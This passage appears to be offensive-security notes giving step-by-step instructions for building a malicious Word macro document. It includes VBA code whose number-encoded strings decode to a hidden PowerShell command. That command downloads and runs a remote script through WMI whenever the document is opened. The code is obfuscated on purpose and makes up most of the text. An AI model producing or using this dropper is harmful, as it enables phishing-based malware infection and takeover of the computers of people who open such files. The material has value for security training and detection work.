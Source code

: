Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

5\. Create the macro word file with the following content, replacing the above name and payload into first 2 Nuts and Apples:

```vb
Function MyMacro()

    If ActiveDocument.Name <> Nuts("133118132133063117128116") Then
        Exit Function
    End If

    Dim Apples As String
    Dim Water As String
    
    Apples = "129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066074067063066071073063066066074063066067065064115128128124063133137133056058058"
    Water = Nuts(Apples)
    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function

Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```
